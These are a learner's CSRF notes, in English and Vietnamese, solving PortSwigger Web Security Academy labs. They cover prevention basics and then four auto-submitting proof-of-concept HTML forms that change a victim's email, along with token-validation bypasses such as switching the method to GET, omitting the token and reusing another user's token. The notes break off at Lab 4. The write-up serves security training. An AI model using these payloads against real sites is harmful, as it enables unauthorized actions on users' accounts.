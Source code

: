 # [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

XSS vs CSRF:

- 

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:

![image-20250524092124689](./image/image-20250524092124689.png)

- Using function auto generate CSRF POC of Burpsuite pro: 

![image-20250524093858189](./image/image-20250524093858189.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 

![image-20250524094141022](./image/image-20250524094141022.png)

=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

![image-20250524102252461](./image/image-20250524102252461.png)

- Send request to repeater and change csrf parameter and observe the result: 

![image-20250524102543927](./image/image-20250524102543927.png)

- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`

![image-20250524105750805](./image/image-20250524105750805.png)

=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 ![image-20250524110119226](./image/image-20250524110119226.png)



### [Lab 2: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

Lab des: 

**Chức năng đổi email** không thực sự kiểm tra giá trị của token CSRF – chỉ cần token tồn tại trong request là hợp lệ.

=> Cho phép tấn công CSRF bằng cách gửi một form giả tới `/my-account/change-email` kèm theo một token bất kỳ.

steps:

- Thay đổi email:

![image-20250602102057281](./image/image-20250602102057281.png) 



- Thay đổi gái trị csrf :

![image-20250602102202162](./image/image-20250602102202162.png) 



- XOá hẳn csrf

![image-20250602102249186](./image/image-20250602102249186.png) 

- gen csrf poc sử dụng burpsuite

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afe00de03a17bee805f2bc0001500a7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="thao&#46;khong&#64;lq&#46;co" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20250602102444822](./image/image-20250602102444822.png)



### [Lab 3: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

Lab des:

Ứng dụng có chức năng đổi email dùng CSRF token.

Tuy nhiên, CSRF token không gắn chặt với session ⇒ server không kiểm tra token có hợp lệ với người dùng hay không, chỉ cần *token hợp lệ về mặt cú pháp* là được.

=> Lấy token từ chính tài khoản của mình => tấn công tài khoản khác (carlos)

steps: 

- login as `wiener` => csrf token: 

  ```js
  email=thao.khong%40lqd1.vn&csrf=59GRiBb3KQKFxgenN5zZn3fbb13IOWJf
  ```

- login as `carlos` => csrf token ở tab ẩn danh:

![image-20250602133633834](./image/image-20250602133633834.png)

```
bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
```

- Đổi csrf token từ carlos sang wiener:

  ```
  email=wienr2%40test1.com&csrf=bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
  ```

  ![image-20250602133805480](./image/image-20250602133805480.png)

302 found => csrf không gắn với session

- craft payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5b007d04bde8c180a958ae00db00ee.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wienr2&#64;testsuccess&#46;com" />
      <input type="hidden" name="csrf" value="59GRiBb3KQKFxgenN5zZn3fbb13IOWJf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20250602134412795](./image/image-20250602134412795.png)

### [Lab 4: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

lab des: 

Token csrf chưa được tích hợp và kiểm tra chặt chẽ cùng với session cookie.

steps:

